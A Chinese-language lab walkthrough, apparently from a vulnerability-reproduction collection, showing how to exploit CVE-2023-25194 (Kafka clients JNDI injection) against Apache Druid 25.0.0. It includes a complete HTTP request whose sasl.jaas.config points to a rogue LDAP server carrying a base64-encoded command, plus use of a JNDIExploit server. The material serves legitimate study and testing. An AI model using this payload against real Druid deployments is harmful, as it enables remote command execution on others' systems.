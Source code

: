 # Apache Kafka Clients JNDI注入漏洞 (CVE-2023-25194)

Apache Kafka是一个开源分布式消息队列，Kafka clients是相对应的Java客户端。

在版本3.3.2及以前，Apache Kafka clients中存在一处JNDI注入漏洞。如果攻击者在连接的时候可以控制属性`sasl.jaas.config`的值为`com.sun.security.auth.module.JndiLoginModule`，则可以发起JNDI连接，进而导致JNDI注入漏洞，执行任意命令。

由于这个漏洞是存在于Java库kafka-clients中，所以我们需要在真实环境下找到使用了这个库的软件，且用户可以控制连接参数。

这个软件就是Apache Druid，其使用kafka-clients来连接Kafka作为其数据源之一。这篇指南就来演示如何利用CVE-2023-25194来攻击Apache Druid。

参考链接：

- <https://nvd.nist.gov/vuln/detail/CVE-2023-25194>
- <https://github.com/projectdiscovery/nuclei-templates/blob/5d90e8275084b0ae9166ec38cacd22e5a5a94fb8/http/vulnerabilities/apache/apache-druid-kafka-connect-rce.yaml>
- <https://hackerone.com/reports/1529790>

## 漏洞环境

执行如下命令启动一个Apache Druid 25.0.0服务，其内部使用的kafka-clients版本是3.3.1：

```
docker-compose up -d
```

服务启动后，访问`http://your-ip:8888`即可查看到Apache Druid主页。

## 漏洞复现

首先，使用[JNDIExploit](https://github.com/vulhub/JNDIExploit)启动一个恶意的JNDI服务器：

![](1.png)

可见，这个工具给出了很多利用方法，我们使用`ldap://roguo-jndi-server:1389/Basic/Command/Base64/[base64_encoded_cmd]`，将命令`id > /tmp/success`编码后放在URL中。

将这个恶意LDAP URL放在下面这个请求中，并发送：

```
POST /druid/indexer/v1/sampler?for=connect HTTP/1.1
Host: your-ip:8888
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.178 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: application/json
Content-Length: 1792

{
    "type":"kafka",
    "spec":{
        "type":"kafka",
        "ioConfig":{
            "type":"kafka",
            "consumerProperties":{
                "bootstrap.servers":"127.0.0.1:6666",
                "sasl.mechanism":"SCRAM-SHA-256",
                "security.protocol":"SASL_SSL",
                "sasl.jaas.config":"com.sun.security.auth.module.JndiLoginModule required user.provider.url=\"ldap://roguo-jndi-server:1389/Basic/Command/base64/aWQgPiAvdG1wL3N1Y2Nlc3M=\" useFirstPass=\"true\" serviceName=\"x\" debug=\"true\" group.provider.url=\"xxx\";"
            },
            "topic":"test",
            "useEarliestOffset":true,
            "inputFormat":{
                "type":"regex",
                "pattern":"([\\s\\S]*)",
                "listDelimiter":"56616469-6de2-9da4-efb8-8f416e6e6965",
                "columns":[
                    "raw"
                ]
            }
        },
        "dataSchema":{
            "dataSource":"sample",
            "timestampSpec":{
                "column":"!!!_no_such_column_!!!",
                "missingValue":"1970-01-01T00:00:00Z"
            },
            "dimensionsSpec":{

            },
            "granularitySpec":{
                "rollup":false
            }
        },
        "tuningConfig":{
            "type":"kafka"
        }
    },
    "samplerConfig":{
        "numRows":500,
        "timeoutMs":15000
    }
}
```

![](2.png)

进入容器后可见`id > /tmp/success`已经成功执行：

![](3.png)
